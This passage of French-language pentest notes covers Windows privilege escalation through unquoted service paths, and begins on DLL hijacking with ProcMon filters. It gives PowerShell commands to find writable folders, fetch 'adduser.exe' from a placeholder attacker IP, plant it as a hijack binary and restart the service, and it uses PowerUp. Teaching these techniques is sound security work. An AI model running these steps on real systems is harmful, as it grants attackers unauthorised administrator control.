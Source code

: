 **2. Vérifier les Permissions d'Écriture**
Vérifiez si vous pouvez écrire dans l'un des chemins interprétés (par exemple, `C:\Program Files\Enterprise Apps\`).
```powershell
# Exemple pour "C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe"
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps" # BUILTIN\Users:(OI)(CI)(RX,W) -> Bingo!
```

**3. Placer l'Exécutable Malveillant**
Créez `adduser.exe` (comme dans la section précédente) et placez-le dans le chemin exploitable.
Si le chemin vulnérable est `C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe`, et que vous avez les droits d'écriture dans `C:\Program Files\Enterprise Apps\`, vous pouvez placer `Current.exe`.

```powershell
# Transférer adduser.exe en tant que Current.exe
# iwr -uri http://<IP_ATTAQUANT>/adduser.exe -Outfile "C:\Program Files\Enterprise Apps\Current.exe"
copy C:\temp\adduser.exe "C:\Program Files\Enterprise Apps\Current.exe"
```

**4. Redémarrer le Service (ou le Système)**
```powershell
# Tenter de redémarrer le service
Stop-Service GammaService
Start-Service GammaService
# Si cela échoue ou si les permissions sont insuffisantes, un redémarrage du système peut être nécessaire si le service démarre automatiquement.
```

**Automatisation avec PowerUp**
```powershell
# Sur la machine cible après avoir chargé PowerUp.ps1
Get-UnquotedService
# Ou Write-ServiceBinary -Name 'NomDuService' -Path "C:\Program Files\Enterprise Apps\Current.exe" # (si PowerUp le suggère)
# Puis redémarrer le service
Restart-Service NomDuService
```

## Détournement de DLL (DLL Hijacking) pour les Services
> Remplacer ou ajouter des DLL qui sont chargées par un service privilégié.

#### Énumeration
Check des applications installées sur le systeme:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Ensuite naviguer dans le répertoire **C:\tools\Procmon\** et double-click sur **Procmon64.exe**

**1. Identifier les Applications/Services Vulnérables**
Utilisez Process Monitor (ProcMon) de Sysinternals pour identifier les DLL manquantes qu'un service tente de charger.
Filtres ProcMon :
*   `Process Name` is `service.exe` (ou le nom du processus du service)
*   `Path` ends with `.dll`
*   `Result` is `NAME NOT FOUND`
